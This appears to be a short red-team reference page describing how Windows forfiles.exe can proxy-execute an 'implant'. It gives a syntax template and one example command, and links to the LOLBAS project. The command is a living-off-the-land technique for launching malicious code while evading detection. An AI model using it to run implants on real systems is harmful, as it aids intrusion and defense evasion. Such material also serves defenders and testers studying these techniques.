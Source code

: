 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - living-off-the-land
  - windows
---
```

# ForFiles

Syntax as it follows.

```
C:\> forfiles.exe /p C:\path\to\search\ /m <match_file> /c "<commands>"
```

Searches the path in `C:\Windows\System32\` to look for a file `notepad.exe` to match to execute the implant.

```
C:\> forfiles.exe /p C:\Windows\System32\ /m notepad.exe /c implant.exe
```

---
## References

### LOLBAS

- [LOLBAS: Forfiles](https://lolbas-project.github.io/lolbas/Binaries/Forfiles/)